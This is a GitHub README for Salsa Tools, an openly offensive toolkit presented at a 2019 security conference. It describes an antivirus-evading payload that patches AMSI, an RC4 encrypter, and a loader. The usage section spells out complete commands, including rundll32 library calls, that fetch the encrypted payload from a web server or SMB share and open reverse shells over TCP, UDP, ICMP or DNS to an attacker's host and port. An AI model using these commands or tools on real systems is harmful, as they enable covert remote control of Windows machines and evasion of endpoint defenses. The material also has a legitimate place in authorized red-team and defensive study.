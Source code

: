![License](https://img.shields.io/badge/license-GNU-green.svg?style=flat-square)

```
   _____       __              ______            __    
  / ___/____ _/ /________ _   /_  __/___  ____  / /____
  \__ \/ __ `/ / ___/ __ `/    / / / __ \/ __ \/ / ___/
 ___/ / /_/ / (__  ) /_/ /    / / / /_/ / /_/ / (__  ) 
/____/\__,_/_/____/\__,_/    /_/  \____/\____/_/____/  

```
# Salsa Tools - An AV-Safe Reverse Shell dipped on bellota sauce  

Salsa Tools is a collection of three different tools that combined, allows you to get a reverse shell on steroids in any Windows environment without even needing PowerShell for it's execution. In order to avoid the latest detection techniques (AMSI), most of the components were initially written on C#. Salsa Tools was publicly released by Luis Vacas during his Talk “Inmersión en la explotación tiene rima” which took place during h-c0n in 9th February 2019.


## Features
    * TCP/UDP/ICMP/DNS/BIND     
    * AV Safe (17th February)
    * AMSI patchers
    * PowerShell execution 
    * ...
    
## Overview
Salsa-Tools is made from three different  ingredients:
    - EvilSalsa
    - EncrypterAssembly
    - SalseoLoader
And his behavior is as it follows:



## Setup
### Requirements
 - Visual Studio 2017 (or similar)
 - Python 2.7       
### Running la Salsa
#### Cooking EvilSalsa

```
   ___ __ __  ____  _            
  /  _]  |  ||    || |           
 /  [_|  |  | |  | | |           
|    _]  |  | |  | | |___        
|   [_|  :  | |  | |     |       
|     |\   /  |  | |     |       
|_____| \_/  |____||_____|       
                                 
  _____  ____  _     _____  ____ 
 / ___/ /    || |   / ___/ /    |
(   \_ |  o  || |  (   \_ |  o  |
 \__  ||     || |___\__  ||     |
 /  \ ||  _  ||     /  \ ||  _  |
 \    ||  |  ||     \    ||  |  |
  \___||__|__||_____|\___||__|__|
  
[+] That is our Payload
                                 
```

EvilSalsa is the key ingredient of this recipe. It contains the payload, which is executed on the system as it follows: as soon as the payloads starts, it runs `System.Management.Automation.dll` which creates a runspace . Within that runspace we have four types of shells (TCP / UDP / ICMP / DNS / BINDTCP). Once EvilSalsa is loaded, first thing first, the existence of `c:\windows\system32\amsi.dll` is checked. If it exists, it is patched using a home-cooked variant of CyberArk and Rastamouse bypasses.


#### Mixing EncrypterAssembly and Evilsalsa
```
  ______                             _            
 |  ____|                           | |           
 | |__   _ __   ___ _ __ _   _ _ __ | |_ ___ _ __ 
 |  __| | '_ \ / __| '__| | | | '_ \| __/ _ \ '__|
 | |____| | | | (__| |  | |_| | |_) | ||  __/ |   
 |______|_| |_|\___|_|   \__, | .__/ \__\___|_|   
     /\                   __/ | || |   | |        
    /  \   ___ ___  ___ _|___/|_|| |__ | |_   _   
   / /\ \ / __/ __|/ _ \ '_ ` _ \| '_ \| | | | |  
  / ____ \\__ \__ \  __/ | | | | | |_) | | |_| |  
 /_/    \_\___/___/\___|_| |_| |_|_.__/|_|\__, |  
                                           __/ |  
                                          |___/   
			  
 [+] Software that encrypts the payload using RC4
 [+] We have the version in python and the version in .exe
```

EncrypterAssembly can be used as a Python script or as a Exe binary.
It encrypts the previously generated EvilSalsa.

Python usage:
```
python encrypterassembly.py <FILE> <PASSWORD> <OUTPUT>
```
Executable usage:
```
Encrypterassembly.exe <FILE> <PASSWORD> <OUTPUT>
```
#### Bringing the Encrypted EvilSalsa to the table with SalseoLoader
SalseoLoader is in charge of loading the encrypted payload. Can be both compiled as a library or as an executable. If it is run as an executable, the chosen arguments must be provided when the executable is run. If it is compiled as a library, the descriptor "main" must be exported. Arguments are added using environmental variables.

Executable usage:
```
SalseoLoader.exe <PASSWORD> <PAYLOAD PATH> <SHELL TYPE> <LHOST> <LPORT>
```
Library usage on Powershell:
```
set $env:pass="password"
set $env:payload="http://10.10.10.10/evil.txt"
set $env:lhost="10.10.10.10"
set $env:lport="1337"
set $env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```

Library usage on CMD:
```
set pass="password"
set payload="http://10.10.10.10/evil.txt"
set lhost="10.10.10.10"
set lport="1337"
set shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```

## Examples
### SalseoLoader (executable version) running Encrypted EvilSalsa (UDP mode) from a web server:
```
SalseoLoader.exe hc0n-2019 http://192.168.1.235/elmal.txt reverseudp 192.168.1.235 1337
```
![](https://github.com/Hackplayers/Salsa-tools/blob/master/images/example1.png)

### SalseoLoader (executable version) running Encrypted EvilSalsa (TCP mode) locally:
```
SalseoLoader.exe hc0n-2019 C:\elmal.txt reversetcp 192.168.1.235 1337
```
![](https://github.com/Hackplayers/Salsa-tools/blob/master/images/example2.png)
## SalseoLoader (executable version) running Encrypted EvilSalsa (ICMP mode) from SMB:
```
SalseoLoader.exe hc0n-2019 \\192.168.1.235\evil\elmal.txt reverseicmp 192.168.1.235 
```
![](https://github.com/Hackplayers/Salsa-tools/blob/master/images/example3.png)

## SalseoLoader (executable version) running Encrypted EvilSalsa (DNS mode) locally:
## Example ReverseDNS
```
SalseoLoader.exe hc0n-2019 C:\elmal.txt reversedns 192.168.1.235 licordebellota.org
```
![](https://github.com/Hackplayers/Salsa-tools/blob/master/images/example4.png)


